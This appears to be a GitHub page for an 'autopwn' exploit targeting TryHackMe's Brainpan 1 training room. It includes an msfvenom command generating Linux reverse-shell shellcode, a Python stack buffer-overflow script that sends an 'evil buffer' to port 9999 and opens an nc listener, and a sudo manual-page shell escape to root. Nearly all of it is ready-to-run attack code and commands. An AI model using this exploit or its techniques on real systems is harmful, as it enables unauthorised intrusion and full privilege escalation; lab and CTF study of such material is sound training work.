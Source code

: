 # TryHackMe's "Brainpan 1" room (https://tryhackme.com/room/brainpan).

# First of all create your shellcode for linux with:
(msfvenom -p linux/x86/shell_reverse_tcp LHOST=VPN IP LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -a x86 -b "\x00")
# Introduce the shellcode in the payload.

```
import socket
import subprocess
import time



print ("Autopwnd TryHackMe's Brainpan 1 room (https://tryhackme.com/room/brainpan).")
print ("Please first of all read README.md(https://github.com/Kalugh/Autopwn-Brainpan-1/blob/main/README.md)")
victim = input("Enter your ip you want to attack:")

ip = victim
port = 9999

#badchars = \x00

#Return Direcction (0x311712f3)

prefix = ""
offset = 0
overflow = "A" * offset
retn = "\xf3\x12\x17\x31"
padding = ""
payload = "\x41" * 520
payload += retn
payload += "\x90" * 30
payload += (ENTER YOUR SHELLCODE HERE)
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")

command = "nc -nvlp 4444" # Chage this if you change the port doing your shellcode introduced on payload
subprocess.call(command, shell=True)
```
# Privilege Escalation
Now you are in the linux machine called "puck(puck@brainpan:/home/puck$)"

You need to run just 3 commands in this order:

1st. python3 -c "import pty; pty.spawn('/bin/bash');"

2nd. sudo /home/anansi/bin/anansi_util manual ls
```
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util manual ls
sudo /home/anansi/bin/anansi_util manual ls
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN)  
```
3rd. Don't press RETURN just execute: !/bin/sh

Just like this:
```
sudo /home/anansi/bin/anansi_util manual ls
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN)!bin/sh
```
After that you should see something like this:
```
sudo /home/anansi/bin/anansi_util manual ls
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/sh
!/bin/sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
```
